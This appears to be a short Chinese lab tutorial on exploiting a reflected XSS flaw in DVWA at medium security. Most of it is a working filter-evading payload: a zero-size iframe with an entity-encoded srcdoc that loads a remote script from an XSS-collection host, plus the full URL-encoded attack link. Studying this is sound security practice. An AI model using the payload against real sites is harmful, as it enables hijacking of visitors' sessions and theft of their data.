 ```
<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。&#x3C;&#x73;&#x43;&#x52;&#x69;&#x50;&#x74;&#x20;&#x73;&#x52;&#x43;&#x3D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x73;&#x3A;&#x2F;&#x2F;&#x78;&#x73;&#x73;&#x2E;&#x70;&#x74;&#x2F;&#x47;&#x46;&#x4C;&#x58;&#x22;&#x3E;&#x3C;&#x2F;&#x73;&#x43;&#x72;&#x49;&#x70;&#x54;&#x3E;>
```

这里我用到dvwa靶场的medium级别。为了更好的验证，我使用了username为1337的用户进行登录。

这里我先构造js代码测试出这里存在反射型xss漏洞

[![img](images/20210409211106-0b0bcd60-9935-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20210409211106-0b0bcd60-9935-1.jpg)

然后构造链接

```
http://192.168.1.3/dvwa/vulnerabilities/xss_r/?name=%3Ciframe WIDTH%3D0 HEIGHT%3D0 srcdoc%3D%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82%26%23x3C%3B%26%23x73%3B%26%23x43%3B%26%23x52%3B%26%23x69%3B%26%23x50%3B%26%23x74%3B%26%23x20%3B%26%23x73%3B%26%23x52%3B%26%23x43%3B%26%23x3D%3B%26%23x22%3B%26%23x68%3B%26%23x74%3B%26%23x74%3B%26%23x70%3B%26%23x73%3B%26%23x3A%3B%26%23x2F%3B%26%23x2F%3B%26%23x78%3B%26%23x73%3B%26%23x73%3B%26%23x2E%3B%26%23x70%3B%26%23x74%3B%26%23x2F%3B%26%23x47%3B%26%23x46%3B%26%23x4C%3B%26%23x58%3B%26%23x22%3B%26%23x3E%3B%26%23x3C%3B%26%23x2F%3B%26%23x73%3B%26%23x43%3B%26%23x72%3B%26%23x49%3B%26%23x70%3B%26%23x54%3B%26%23x3E%3B%3E#
```

